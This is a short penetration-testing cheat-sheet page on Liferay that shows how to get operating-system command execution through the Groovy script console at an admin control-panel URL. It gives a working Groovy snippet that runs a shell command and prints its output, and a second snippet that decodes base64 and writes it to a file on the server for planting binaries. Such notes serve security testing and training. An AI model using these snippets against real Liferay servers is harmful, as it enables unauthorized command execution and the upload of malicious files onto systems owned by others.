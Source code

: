 ```yaml
---
title: Liferay
category: Software
order: 7
---
```



# RCE from Goovy console

It is possible to achieve os command execution with goovy scripts.

http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0

```
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'id'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```


Decode a base64 string and store it to a file, useful to upload binaries on the server.

```
def outputFile = new File("/tmp/isec.txt") 
def base64Content = "SG9sYSBtYW51" 
byte[] decodedBytes = Base64.decoder.decode(base64Content)
outputFile.bytes = decodedBytes
```
